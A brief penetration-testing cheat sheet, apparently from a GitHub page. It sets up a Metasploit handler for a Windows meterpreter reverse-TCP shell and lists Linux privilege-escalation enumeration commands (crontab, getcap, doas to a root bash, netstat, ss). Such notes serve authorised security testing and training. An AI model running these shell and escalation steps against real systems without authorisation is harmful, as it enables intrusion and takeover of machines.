 
# Meterpreter

start a meterpreter shell

```bash
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

---

# PrivEsc Linux
### Crons

```bash
cat /etc/crontab
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### doas

```bash
doas -u root /bin/bash
```

### Find Running services

```bash
netstat -ant
```

```bash
netstat -tulpen
```

```bash
netstat -an -p tcp
```

### sockets

```bash
ss -tlp
```

### Python debugger [pdb]

```python
import pdb
```
